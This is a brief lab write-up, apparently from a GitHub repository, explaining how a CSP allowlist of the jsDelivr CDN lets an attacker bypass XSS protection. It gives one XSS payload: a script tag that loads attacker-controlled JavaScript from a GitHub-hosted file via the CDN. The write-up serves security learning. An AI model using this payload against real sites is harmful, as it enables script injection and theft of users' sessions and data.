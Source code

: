 # Context

The lab uses CSP to mitigate XSS. But the lab allowlists the following domain: `cdn.jsdeliver.net*`. This means we can inject JS onto the web page by the following XSS payload:

```html
<script src="https://cdn.jsdelivr.net/gh/kevin-fagan/csp-bypass-payloads@main/nevernote-csp-bypass.js"></script>
```
